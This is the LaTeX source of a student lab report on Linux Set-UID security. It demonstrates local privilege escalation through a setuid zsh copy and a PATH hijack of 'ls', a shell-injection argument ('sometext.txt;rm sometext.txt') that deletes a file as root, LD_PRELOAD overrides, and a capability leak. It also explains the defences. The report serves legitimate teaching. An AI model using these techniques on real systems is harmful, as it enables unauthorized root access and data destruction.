%\documentclass[12pt,notitlepage]{article}
\documentclass[a4paper,12pt]{article}
\usepackage[utf8]{inputenc}
\usepackage{graphicx}
\usepackage{verbatim}
\usepackage{amsthm}
\usepackage{amssymb}
\usepackage{pdfpages}
\usepackage{amsmath}
\usepackage{tikzsymbols}
\usepackage{mathtools}
\DeclarePairedDelimiter\ceil{\lceil}{\rceil}
\DeclarePairedDelimiter\floor{\lfloor}{\rfloor}

\usepackage{hyperref}
%\usepackage[T1]{fontenc}
\usepackage{url}
\usepackage{lipsum}
\usepackage{array}
\usepackage{multirow}
\usepackage{float}
\usepackage{lscape}
\usepackage{colortbl}
\newcolumntype{P}[1]{>{\centering\arraybackslash}p{#1}}
\usepackage[nottoc,numbib]{tocbibind}
\usepackage{fancyhdr}
\usepackage{hhline}
\usepackage[printonlyused]{acronym}

%\usepackage{txfonts}
\usepackage{lipsum,etoolbox}% http://ctan.org/pkg/{lipsum,etoolbox}
\usepackage{caption}
\usepackage{subcaption}

\usepackage{algorithm}
\usepackage[noend]{algpseudocode}

\makeatletter
\def\BState{\State\hskip-\ALG@thistlm}
\makeatother

\usepackage{minted}

\definecolor{black}{RGB}{0,0,0}

\usepackage{fancyvrb}

\usepackage{geometry}
\geometry{
	a4paper,
	total={170mm,257mm},
	right=3cm,
	left=3.5cm,
	top=3cm,
	bottom=3cm
}

\makeatletter
\DeclareRobustCommand{\rvdots}{%
	\vbox{
		\baselineskip4\p@\lineskiplimit\z@
		\kern-\p@
		\hbox{.}\hbox{.}\hbox{.}
}}
\makeatother

\usepackage{titlesec}
\usepackage{hyperref}
\titleclass{\subsubsubsection}{straight}[\subsection]

\newcounter{subsubsubsection}[subsubsection]
\renewcommand\thesubsubsubsection{\thesubsubsection.\arabic{subsubsubsection}}
\renewcommand\theparagraph{\thesubsubsubsection.\arabic{paragraph}} % optional; useful if paragraphs are to be numbered

\titleformat{\subsubsubsection}
{\normalfont\normalsize\bfseries}{\thesubsubsubsection}{1em}{}
\titlespacing*{\subsubsubsection}
{0pt}{3.25ex plus 1ex minus .2ex}{1.5ex plus .2ex}

\makeatletter
\renewcommand\paragraph{\@startsection{paragraph}{5}{\z@}%
	{3.25ex \@plus1ex \@minus.2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\renewcommand\subparagraph{\@startsection{subparagraph}{6}{\parindent}%
	{3.25ex \@plus1ex \@minus .2ex}%
	{-1em}%
	{\normalfont\normalsize\bfseries}}
\def\toclevel@subsubsubsection{4}
\def\toclevel@paragraph{5}
\def\toclevel@paragraph{6}
\def\l@subsubsubsection{\@dottedtocline{4}{7em}{4em}}
\def\l@paragraph{\@dottedtocline{5}{10em}{5em}}
\def\l@subparagraph{\@dottedtocline{6}{14em}{6em}}
\makeatother
\newcommand{\setuid}{\texttt{Set-UID} }


\setcounter{secnumdepth}{4}
\setcounter{tocdepth}{4}
\newcommand{\und}{\underline{\hspace{.10in}}}
\begin{document}
	\begin{titlepage}
		\begin{center}
			\vspace*{9em}
			\Huge 
			MH4920\\ Supervised Independent Study I\\
			\vspace*{4em}
			\LARGE
			\textbf{Set-UID\\}		
			\vspace{4em}
			\textbf{Brandon Goh Wen Heng}\\
			\vspace*{4em}
			Academic Year 2017/18
			\vfill
		\end{center}
	\end{titlepage}
	\pagenumbering{roman}
\tableofcontents
\newpage
\pagenumbering{arabic}
\section{Introduction}
\setuid allows the user to assume the privileges of the owner when the program is executed. However, misuse and exploitation of \texttt{Set-UID} programs can result in the system shell being exposed.
\section{Overview}
This lab will explore the importance, usefulness and potential security loopholes of using \texttt{Set-UID} programs.
\newpage
\section{Lab}
\subsection{Analysing Requirements of \texttt{Set-UID} Programs}
We first look at some \texttt{Set-UID} programs, mainly \texttt{passwd}, \texttt{chsh}, \texttt{su} and \texttt{sudo}. Before analysing why these are \texttt{Set-UID} programs, the functions of these programs need to be understood first.
\begin{enumerate}
	\item \texttt{passwd} is used to change or set the password of the user.
	\item \texttt{chsh} is used to change the directory of the login shell.
	\item \texttt{su} is used to run command with substitute user and group ID.
	\item \texttt{sudo} is used to execute programs as another user.
\end{enumerate}
The four programs listed above perform tasks requiring privileges that the user does not have, such as modification of passwords within a system file. Therefore \texttt{Set-UID} programs are needed for the user to obtain temporary privilege escalation to complete the tasks required.\\\\The next step would be to copy these programs into our local directory. Copying these programs would result in the loss of its \texttt{Set-UID} properties. 
\begin{verbatim}
$ cp /bin/su ~
$ cp /usr/bin/chsh ~
$ cp /usr/bin/passwd ~
$ cp /usr/bin/sudo ~
\end{verbatim}
\begin{figure}[!h]
	\centering
	\begin{minipage}{0.5\linewidth}
		\centering
		
\includegraphics[width=0.98\linewidth]{setuidpasswd}
		\caption{\texttt{Set-UID passwd} program}
		\label{fig:setuidpasswd}
	\end{minipage}%
	\begin{minipage}{0.5\linewidth}
		\centering
		
\includegraphics[width=0.98\linewidth]{setuidchsh}
		\caption{\texttt{Set-UID chsh} program}
		\label{fig:setuidchsh}
	\end{minipage}
\end{figure}
\begin{figure}[!h]
	\centering
	\begin{minipage}{0.5\linewidth}
		\centering
		
\includegraphics[width=0.98\linewidth]{setuidsu}
		\caption{\texttt{Set-UID su} program}
		\label{fig:setuidsu}
	\end{minipage}%
	\begin{minipage}{0.5\linewidth}
		\centering
		
\includegraphics[width=0.98\linewidth]{setuidsudo}
		\caption{\texttt{Set-UID sudo} program}
		\label{fig:setuidsudo}
	\end{minipage}
\end{figure}
\subsection{Copying \texttt{Set-UID} Programs}
This section looks at the results of copying \texttt{Set-UID} programs to a different directory while still maintaining the properties of a \texttt{Set-UID} program. \\\\A program \texttt{zsh} in the directory \texttt{/bin} is copied to the directory \texttt{/tmp}, with owner as root with permission 4755. A normal user is used to run the program and shell access can be obtained with root privileges.
\begin{verbatim}
$ su
# cp /bin/zsh /tmp
# chmod 4755 /tmp/zsh
# exit
$ /tmp/zsh
\end{verbatim}
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{zshroot}
	\caption{Shell access with \texttt{zsh}}
	\label{fig:zshroot}
\end{figure}
The same steps were performed for \texttt{/bin/bash} and execution of \texttt{/tmp/bash} does not give root privilege in the shell. This is due to \texttt{bash} checking whether the effective user id (euid) is the same as the real user id (ruid). If the euid and ruid are not the same, then the euid is set as the ruid\footnote{\url{https://linux.die.net/man/1/bash}}. Therefore, the only way to obtain root privileges in \texttt{bash} is to have the root user execute scripts in \texttt{bash}.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{bashnoroot}
	\caption{No root access with \texttt{bash}}
	\label{fig:bashnoroot}
\end{figure}
\subsection{Removal of \setuid Mechanism}
This section will look at Linux where the built-in protection that prevented the abuse of \setuid mechanism was not yet implemented. To perform the required tasks, \texttt{/bin/zsh} is used instead of \texttt{/bin/dash}. As \texttt{/bin/sh} is a symbolic link to \texttt{/bin/bash}, the following lines of code are required to change the symbolic link.
\begin{verbatim}
$ su 
# cd /bin
# rm sh
# ln -s zsh sh
\end{verbatim}
\subsection{\texttt{PATH} Environment Variable} \label{PATH}
Using \texttt{system} as a \texttt{Set-UID} program is dangerous as the \texttt{PATH} environment variable can be exploited to run malicious code. In this subsection, a \texttt{Set-UID} program written in \texttt{C} is defined such that it uses the \texttt{system} command to execute \texttt{ls}. The program is  compiled with the name \textit{setuidpath} for readability purposes and the code can be referenced in the \hyperref[Appsec:3.6]{Appendix}. The \texttt{PATH} environment variable is now edited to point to another directory and placed at the front. Placing the directory at the front ensures that the program will always look into our added directory first before moving on to the following directories in the list to find the respective program to be executed. In this instance, we run the following code to update \texttt{PATH},
\begin{verbatim}$ export PATH=/home/seed:$PATH\end{verbatim}
We create a file that calls \texttt{sh} using system. The code has also been attached in the \hyperref[Appsec:3.6.2]{Appendix}. The following line of code is run to ensure that the code is being compiled into a program with the name \texttt{ls} in the directory \texttt{/home/seed} that was just added.
\begin{verbatim}
$ gcc -o ls callsh.c
\end{verbatim}
When \textit{setuidpath} is run, a shell is obtained as the process that calls the shell is privileged. Further scripting reveals that we have obtained root access to the system using a \texttt{Set-UID} program.\\

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{PATHexploit}
	\caption{Root Privilege Obtained}
	\label{fig:pathexploit}
\end{figure}
\noindent Now the symbolic link of \texttt{sh} is pointed back to \texttt{/bin/bash} and the experiment is repeated. This time, the same thing happens and root shell can be obtained. Due to this, any code can be executed with root privileges. This was checked again by deploying a clean virtual machine and ensuring that \texttt{sh} was pointed to \texttt{/bin/bash}. The symbolic link was checked using the following command.
\begin{verbatim}
$ ll /bin/sh
\end{verbatim}
It is also important to take note that \texttt{ll} is an alias of \texttt{ls -l} and hence the \texttt{PATH} environment variable must not include the directory where the user-defined \texttt{ls} is located.
\\\\ Further analysis performed on \texttt{sh} shows that the euid is not dropped with \texttt{sh 4.2}. \hyperref[addnotes]{Additional Notes} at the end of this report provides additional analysis performed on the different shells. However, if the directory in the call shell \texttt{C} code is changed to \texttt{/bin/bash}, root shell \textbf{cannot} be obtained.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{bashnoroot2}
	\caption{No root acces}
	\label{fig:bashnoroot2}
\end{figure}

\noindent The results of this subsection proves that it is extremely dangerous when a \texttt{Set-UID} program uses the \texttt{system} command. It has also been shown that the \texttt{PATH} environment variable can be easily edited by a malicious user even without root privileges. Furthermore, using a relative path further increases the risk of the system being compromised. The method of circumventing this problem is to use absolute path when executing a program.
\subsection{Differences between \texttt{system()} Versus \texttt{execve()}}
In this section, we look at the differences in the execution of the command \texttt{system()} and \texttt{execve()}. For this part, the symbolic link of \texttt{sh} is pointed back to \texttt{/bin/bash}. To do so, the following commands will suffice.
\begin{verbatim}
$ su
# cd /bin
# ln -sf zsh sh
# exit
\end{verbatim}
The \hyperref[Appsec:sysexec]{code} provided in this section is for a user to use \setuid program to be able to read files using the \texttt{cat} function that is built in. We look at the level of security that is provided by these two programs and a way to exploit the program.\\\\A random text file with the file name \texttt{sometext.txt} is created with permission 600 and owner as set as root. This is for the program to be able to execute the \texttt{cat} function. We compile our code under the file name sysexec and execute the following code to obtain to remove files.
\begin{verbatim}
$ su
# gcc -o sysexec sysexec.c
# chmod 4755 sysexec
# exit
$ sysexec "sometext.txt;rm sometext.txt"
\end{verbatim}
The file was deleted as a result of the execution of the command above. This is due to the execution of \texttt{rm} which was performed with root privileges and hence the operation would be successful as a result. It is important that the parameters of \texttt{sysexec} must be in the inverted commas, separated with a semi-colon. This would cause multiple programs to run under the \texttt{system} command and have elevated privileges.
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{rmsuccess}
	\caption{Successful Removal of File}
	\label{fig:rmsuccess}
\end{figure}
\noindent When the file is now compiled to use \texttt{execve} instead of \texttt{system}, the file cannot be removed as \texttt{execve} reads the parameter in its entirety and does not execute two separate commands. This method prevents the user from executing any code outside of what the owner intended.
\subsection{\texttt{LD\_PRELOAD} Environment Variable \& \texttt{Set-UID}}
The current subsection will focus on how \texttt{Set-UID} programs interact with \texttt{LD\_}\textbf{*} environment variables, in particular \texttt{LD\_PRELOAD}. The \texttt{LD\_}\textbf{*} environment variables affect the behaviour of the dynamic loaders in Linux and \texttt{LD\_PRELOAD} specifies additional user-specified shared library directories to be loaded before using the default set of directories.\\\\
A dynamic link library is created to replace the \texttt{sleep()} function in \texttt{libc}. The code for this library is attached in the \hyperref[Appsec:3.7]{Appendix}. This is compiled and \texttt{LD\_PRELOAD} is now edited to include the newly compiled library.
\begin{verbatim}
$ gcc -fPIC -g -c mylib.c
$ gcc -shared -o libmylib.so.1.0.1 mylib.o -lc
$ export LD_PRELOAD=./libmylib.so.1.0.1
\end{verbatim}
The \texttt{-fPIC} argument is used to ensure that the code generated is independent of the virtual address. Using \texttt{PIC} instead of \texttt{pic} ensures that the code generated is platform independent.\\\\A new program \textit{myprog} is created to execute the \texttt{sleep} function. The code for this simple program can be referenced from the \hyperref[Appsec:3.7.2]{Appendix}. When \textit{myprog} is run under the following circumstances, the results obtained were different.
\begin{enumerate}
	\item Running \textit{myprog} as a regular program and executing as a normal user, the string ``I am not sleeping!'' is displayed, which shows that the \texttt{LD\_PRELOAD} environment variable was loaded.
	\item Running \textit{myprog} as a \texttt{Set-UID} program and running it with a normal user will result in the program going to sleep for 5 seconds. This shows that \texttt{LD\_PRELOAD} was ignored by the linker. (To observe the results clearly, \texttt{sleep(1)} was amended to \texttt{sleep(5)} instead.)
	\item Running \textit{myprog} as a \texttt{Set-UID} program and exporting the \texttt{LD\_PRELOAD} environment variable under the root account results in the string being displayed. In this instance, the \texttt{LD\_PRELOAD} environment variable was loaded.
	\item Setting \textit{myprog} as a user1 \texttt{Set-UID} program with \texttt{LD\_PRELOAD} environment variable set under user2 and executing it results in the program going to sleep for 5 seconds, also indicating that \texttt{LD\_PRELOAD} was ignored.
\end{enumerate}
We analyse the results obtained from the four different conditions and notice that the \texttt{LD\_PRELOAD} is ignored if the owner and the user executing the program is different, then there will be no execution of the user-defined library.
\subsection{Relinquishing Privileges and Cleanup}
In this section, we take a look at relinquishing privileges, where privileges are permanently downgraded after execution. Using \texttt{setuid()} sets the effective user ID of the calling process and removes root privileges if the user executing the program is not root.\\\\In the \texttt{C} code provided for \hyperref[Appsec:3.72]{this section}, a vulnerability can be found in the program where root access is revoked but the file that was previously opened under root privileges is still able to have its file edited. 
\begin{figure}[H]
	\centering
	
\includegraphics[width=0.9\linewidth]{capleak}
	\caption{Capability Leaking}
	\label{fig:capleak}
\end{figure}
\noindent In Figure 10, it can be seen that the file was successfully written as the handle that opens the file still retains root privileges and as a result is successful in writing the contents into the file even after \texttt{setuid(getuid())} has been executed.
\newpage
\section{Appendix}
\subsection{\texttt{PATH} Environment Variable}
\label{Appsec:3.6}
\begin{minted}{C}
int main()
{
    system("ls");
    return 0;
}
\end{minted}
\subsection{Call Shell}
\label{Appsec:3.6.2}
\begin{minted}{C}
int main()
{
    system("/bin/sh");
    return 0;
}
\end{minted}
\subsection{\texttt{system()} Versus \texttt{execve()}}
\label{Appsec:sysexec}
\begin{minted}{C}
#include <string.h>
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
	char *v[3];
	
	if (argc < 2) {
		printf("Please type a file name.\n");
		return 1;
	}
	
	v[0]="/bin/cat";
	v[1]=argv[1];
	v[2]=0;
	
	/*Set q=0 for part a, and q=1 for part b*/
	int q=0;
	if (q==0) {
	    char *command = malloc(strlen(v[0])+strlen(v[1])+2);
	    sprintf(command, "%s %s", v[0], v[1]);
	    system(command);
	}
	else execve(v[0], v, 0);
	
	return 0;
}
\end{minted}
\subsection{\texttt{sleep()} Library}
\label{Appsec:3.7}
\begin{minted}{C}
#include <stdio.h>

void sleep (int s)
{
    printf("I am not sleeping!\n");
}
\end{minted}
\subsection{Execute \texttt{sleep()} Function}
\begin{minted}{C}
int main()
{
    sleep(1);
    return 0;
}
\end{minted}
\newpage
\subsection{Relinquishing Privileges and Cleanup}
\label{Appsec:3.72}
\begin{minted}{C}
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

void main()
{
	int fd;
	fd = open("/etc/zzz", O_RDWR | O_APPEND);
	if (fd==-1) {
		printf("Cannot open /etc/zzz\n");
		exit(0);
	}
	
	sleep(1);
	
	setuid(getuid());
	
	if (fork()){
		close (fd);
		exit(0);
	} else {
		write(fd, "Malicious Data\n", 15);
		close (fd);
	}
}
\end{minted}
\newpage
\section{Additional Notes}
It has been found that \texttt{sh 4.2} does not drop privileges in POSIX mode even when declared without the \texttt{-p} option\footnotetext{\url{https://lists.gnu.org/archive/html/bug-bash/2012-10/msg00134.html}}. Two files were created to print the euid and ruid of the various shell programs in Ubuntu 12.04 (provided Seed VM) and Ubuntu 16.04 (Server distribution on Microsoft Azure). The bug has been fixed in \texttt{sh 4.3} and cannot be replicated on the newer operating systems.\\\\
The following lines of code were used to prepare the files needed for execution to generate the table of ruid/uid, euid and suid.
\begin{verbatim}
$ gcc -o print-uids prtuid.c
$ su
# gcc -o system-suid sysuid.c
# chmod 4755 sysuid
# exit
\end{verbatim}
\subsection{Results}
\begin{table}[h]
	\centering
	\label{sh4.2tab}
	\bgroup
	\def\arraystretch{1.3}
	\begin{tabular}{l|l|l|l}
		Shell/PID      & RUID/UID    & EUID        & SUID    \\ \hline
		{[}25558{]}    & ruid = 1000 & euid = 0    & suid =0 \\ \hline
		\{25557\}      & uid = 1000  & euid = 0    &         \\ \cline{1-3}
		sh\{25559\}    & uid = 1000  & euid = 0    &         \\ \cline{1-3}
		bash4\{25560\} & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		ksh\{25561\}   & uid = 1000  & euid = 0    &         \\ \cline{1-3}
		dash\{25564\}  & uid = 1000  & euid = 0    &         \\ \cline{1-3}
		zsh\{25567\}   & uid = 1000  & euid = 0    &        
	\end{tabular}
\egroup
	\caption{Ubuntu 12.04 (Seed VM)}
\end{table}
\begin{table}[h]
	\centering
	\label{sh4.3tab}
	\bgroup
	\def\arraystretch{1.3}
	\begin{tabular}{l|l|l|l}
		Shell/PID      & RUID/UID    & EUID        & SUID    \\ \hline
		{[}49143{]}    & ruid = 1000 & euid = 1000 & suid = 1000 \\ \hline
		\{49142\}      & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		sh\{49144\}    & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		bash4\{49145\} & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		dash\{49146\}  & uid = 1000  & euid = 1000 &         \\ \cline{1-3}
		zsh\{49149\}   & uid = 1000  & euid = 1000 &         
	\end{tabular}
\egroup
\caption{Ubuntu 16.04 Server (Microsoft Azure)}
\end{table}
\noindent From the two tables above, we note that there are no issues in using \texttt{Set-UID} programs in Ubuntu 16.04 to call the different shells as all practice the principle of least privileges. In Ubuntu 12.04 however, the euid is not downgraded and using \setuid programs to call any shell except \texttt{bash} will result in root privilege access. 
\subsection{Print UID: \texttt{prtuid.c}}
\label{addnotes}
\begin{minted}{C}
#define _GNU_SOURCE
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main (void)
{
    uid_t ruid, euid, suid;
    getresuid (&ruid, &euid, &suid);
    printf ("[%d] ruid = %d, euid = %d, suid = %d\n",
    getpid(), ruid, euid, suid);
    return 0;
}
\end{minted}
\newpage
\subsection{Print System SUID: \texttt{sysuid.c}}
\begin{minted}{C}
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
int main (void)
{
	//bash3, bash2 is commented out for Ubuntu 12.04
	//bash3, bash2, ksh is commented out for Ubuntu 16.04
	//zsh should be commented out if not installed
	return system(
	"./print-uids"
	" && "
	"echo {$$} uid: $UID, euid: $EUID"
	" && "
	"/bin/sh -c 'echo sh{$$} uid: $UID, euid: $EUID'"
	" && "
	"/bin/bash -c 'echo bash4{$$} uid: $UID, euid: $EUID'"
	" && "
	"bash-3.0 -c 'echo bash3{$$} uid: $UID, euid: $EUID'"
	" && "
	"bash-2.0 -c 'echo bash2{$$} uid: $UID, euid: $EUID'"
	" && "
	"ksh -c 'echo ksh{$$} uid: $(id -r -u), euid: $(id -u)'"
	" && "
	"dash -c 'echo dash{$$} uid: $(id -r -u), euid: $(id -u)'"
	" && "
	"zsh -c 'echo zsh{$$} uid: $(id -r -u), euid: $(id -u)'"
	);
}
\end{minted}

\end{document}